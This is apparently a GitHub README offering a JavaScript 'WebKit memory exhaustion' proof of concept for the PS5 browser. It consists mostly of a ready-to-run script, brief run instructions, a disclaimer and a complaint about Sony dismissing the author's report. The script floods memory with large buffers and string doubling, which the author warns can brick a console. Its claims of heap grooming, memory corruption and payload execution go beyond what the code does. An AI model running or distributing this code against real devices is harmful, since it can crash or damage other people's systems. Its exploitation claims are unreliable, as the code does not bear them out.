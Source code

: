 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Exhaustion PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5 isn't useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place This code dosent contain any payload you will need your own

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **
##A Message to Sony 
Sony I have reported this and got dismmised and I have provided enough proof it with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 
